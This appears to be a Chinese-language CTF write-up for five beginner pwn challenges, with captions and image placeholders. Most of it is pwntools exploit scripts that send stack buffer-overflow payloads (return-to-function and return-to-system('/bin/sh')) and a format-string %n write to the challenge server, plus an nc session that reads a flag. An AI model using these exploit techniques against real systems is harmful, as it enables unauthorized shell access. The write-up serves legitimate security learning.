

# get_shell

文件信息




flag

```csharp
helloctfos@Hello-CTF:~$ nc 61.147.171.105 56505
ls
bin
dev
flag
get_shell
lib
lib32
lib64
cat flag
cyberpeace{be73b6d2c6ef9335f302372399629769}
```

# hello_pwn

文件信息


sub_400686


```csharp
from pwn import *
p=remote('61.147.171.105','50394')
p.recvuntil("lets get helloworld for bof")
payload=('a'*0x4).encode()+p64(1853186401)
p.sendline(payload)#将payload发送给程序
p.interactive()#进入交互界面8、执行exp，成功拿到攻防世界的flag
```

# level0

文件信息


找到了我们需要返回的地方


生成一段字符串，看一下大小


查找一下callsystem函数地址


payload

```csharp
from pwn import*

r=remote("61.147.171.105",52218)

payload=b"a"*136+p64(0x400596)

r.sendline(payload)
r.interactive()
```

# level2

文件信息


buf0x88大小


system


/bin/sh


payload

```csharp
from pwn import*

r=remote("61.147.171.105",54081)

systemaddr=0x08048320
binshaddr=0x0804A024
payload=b"a"*0x88+b"a"*4+p32(systemaddr)+b"a"*4+p32(binshaddr)

r.sendline(payload)
r.interactive()
```

# CGfsb

文件信息


pwnme在0804A068


存在格式化字符串


确定偏移量为10


payload

```csharp
from pwn import*

p=remote("61.147.171.105",55602)


pwnme=0x0804A068
p.recvuntil("please tell me your name:\n")
p.sendline('a')
payload = p32(pwnme)+b'a'*0x4 +b'%10$n'
p.recvuntil("leave your message please:\n")

p.sendline(payload)
p.interactive()
```
